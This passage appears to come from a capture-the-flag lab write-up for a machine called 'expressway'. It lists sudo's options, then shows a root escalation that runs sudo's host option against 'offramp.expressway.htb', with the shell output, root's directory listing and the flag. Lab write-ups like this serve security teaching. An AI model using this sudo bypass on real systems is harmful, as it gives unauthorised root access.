 ```bash
      --preserve-env=list       preserve specific environment variables
  -e, --edit                    edit files instead of running a command
  -g, --group=group             run command as the specified group name or ID
  -H, --set-home                set HOME variable to target user's home dir
  -h, --help                    display help message and exit
  -h, --host=host               run command on host (if supported by plugin)
  -i, --login                   run login shell as the target user; a command
                                may also be specified
  -K, --remove-timestamp        remove timestamp file completely
  -k, --reset-timestamp         invalidate timestamp file
  -l, --list                    list user's privileges or check a specific
                                command; use twice for longer format
  -n, --non-interactive         non-interactive mode, no prompts are used
  -P, --preserve-groups         preserve group vector instead of setting to
                                target's
  -p, --prompt=prompt           use the specified password prompt
  -R, --chroot=directory        change the root directory before running command
  -S, --stdin                   read password from standard input
  -s, --shell                   run shell as the target user; a command may
                                also be specified
  -T, --command-timeout=timeout terminate command after the specified time limit
  -U, --other-user=user         in list mode, display privileges for user
  -u, --user=user               run command (or edit file) as specified user
                                name or ID
  -V, --version                 display version information and exit
  -v, --validate                update user's timestamp without running a
                                command
  --                            stop processing command line arguments
```

We saw that the `-h` can also be used to run command on host and if we combine with `-i`, we can escalated to `root` via `offramp.expressway.htb`.

### Sudo -h bypass
```bash
ike@expressway:/var/log/squid$ sudo -h offramp.expressway.htb -i
root@expressway:~# id
uid=0(root) gid=0(root) groups=0(root)
root@expressway:~# ls -la
total 44
drwx------  6 root root 4096 Sep 21 03:11 .
drwxr-xr-x 18 root root 4096 Sep 16 16:02 ..
lrwxrwxrwx  1 root root    9 Aug 29 14:57 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwx------  3 root root 4096 Sep 16 16:02 .config
drwx------  3 root root 4096 Sep 16 16:02 .gnupg
-rw-------  1 root root   20 Sep 16 15:51 .lesshst
drwxr-xr-x  3 root root 4096 Sep 16 16:02 .local
lrwxrwxrwx  1 root root    9 Sep 16 10:24 .mariadb_history -> /dev/null
-rw-r--r--  1 root root  132 May 12 20:25 .profile
-rw-r-----  1 root root   33 Sep 21 03:11 root.txt
-rw-r--r--  1 root root   66 May 23 21:49 .selected_editor
drwx------  2 root root 4096 Sep 16 16:02 .ssh
root@expressway:~# cat root.txt
4d8af57d5dbba97bcfaa0d4e5fc5ea78
```
